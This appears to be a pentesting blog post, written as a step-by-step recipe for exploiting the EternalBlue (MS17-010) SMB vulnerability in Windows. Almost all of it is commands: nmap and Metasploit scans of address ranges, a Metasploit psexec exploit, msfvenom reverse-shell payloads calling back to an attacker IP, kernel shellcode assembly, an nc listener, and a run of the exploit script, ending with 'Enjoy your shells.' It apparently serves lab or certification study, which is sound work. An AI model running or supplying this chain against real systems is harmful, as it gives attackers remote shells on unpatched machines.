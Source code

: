 ```yaml
---
layout: post
title: "Exploit: EternalBlue"
date: 2022-09-04 18:07 +0100
tags: pentesting cia windows hacking
categories: [Pentesting, Exploit]
published: true
---
```


## Scanning

```bash
nmap -p 135,445 -sV -Pn -vvv --script smb-vuln-ms17-010.nse
```

## The Metasploit Way

MSF Scanner:

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.11.1.0/24
exploit
```

MSF Payload:

```bash
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.10
set LHOST 10.10.14.3
set LPORT 1111
exploit
```

## The "Manual Way"

[WoraWit Github: MS17-010](https://github.com/worawit/MS17-010)

Pretty simple to setup the exploit, but can get confusing if you don't know what you're doing.

- Locate your target (Nmap has a scanner, so does MSF)
- Clone the git repo at the top of this post
- `cd` into the `shellcode` folder
- You should see three files, two `.asm` files and one `.py`
- Do the following for both `.asm` files:

## x64

```bash
nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin

msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=10.11.0.46 --platform windows -a x64 --format raw -o sc_x64_payload.bin

cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

## x86

```bash
nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin

msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=10.11.0.46 --platform windows -a x86 --format raw -o sc_x86_payload.bin

cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
```

## Combine the Binaries

```bash
python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

Confirm all the files are there:

```bash
ls -la
```

Should be 7 (not including the three original files)

## Fire the Payload

Start up a listener:

```bash
nc -lvnp 443
```

```bash
python eternalblue_exploit7.py 10.10.10.10 shellcode/sc_all.bin
```

Enjoy your shells.
